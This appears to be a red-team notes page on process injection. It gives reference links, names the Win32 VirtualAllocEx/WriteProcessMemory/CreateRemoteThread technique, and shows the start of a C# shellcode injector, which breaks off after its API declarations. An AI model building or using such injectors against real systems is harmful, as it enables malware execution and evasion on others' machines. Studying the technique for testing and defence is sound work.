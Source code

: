 ```yaml
---
description: Inject shellcode into remote process's virtual address space
---
```


# Process Injectors

* [https://rastamouse.me/exploring-process-injection-opsec-part-1/](https://rastamouse.me/exploring-process-injection-opsec-part-1/)
* [https://rastamouse.me/exploring-process-injection-opsec-part-2/](https://rastamouse.me/exploring-process-injection-opsec-part-2/)
* [https://www.x86matthew.com/view_post?id=proc_env_injection](https://www.x86matthew.com/view_post?id=proc_env_injection)




## Classic Process Injection



### C\# DLL via Win32 API

* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Injector/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Injector/Program.cs)

Using standard *Win32 API* trio:

* [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
* [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
* [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)

{% code title="ProcessInjector.cs" %}
```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ProcessInjector
{
    public class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
```